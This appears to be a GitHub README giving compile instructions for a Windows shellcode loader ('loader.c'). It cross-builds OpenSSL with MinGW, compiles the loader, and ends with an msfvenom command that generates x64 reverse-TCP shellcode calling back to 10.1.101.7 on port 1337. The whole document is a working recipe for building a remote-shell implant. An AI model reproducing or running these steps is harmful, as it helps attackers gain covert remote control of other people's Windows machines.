 # COMPILATION INSTRUCTIONS

## Install openssl windows
```bash
wget https://www.openssl.org/source/openssl-1.1.1v.tar.gz
gunzip openssl-1.1.1v.tar.gz
tar -xvf openssl-1.1.1v.tar
cd openssl-1.1.1v
./Configure mingw64 --cross-compile-prefix=x86_64-w64-mingw32- --prefix=/usr/local/openssl-windows
make
make install
```

## Compile on windows10
x86_64-w64-mingw32-gcc loader.c -o loader.exe -I/usr/local/openssl-windows/include -L/usr/local/openssl-windows/lib -lcrypto -lssl -lws2_32

## Compile on windows11
x86_64-w64-mingw32-gcc loader.c -o loader.exe -I/usr/local/openssl-windows/include -L/usr/local/openssl-windows/lib -lcrypto -lssl -lws2_32 -static

## Generate shellcode
msfvenom -p windows/x64/shell_reverse_tcp LPORT=1337 LHOST=10.1.101.7 -f hex
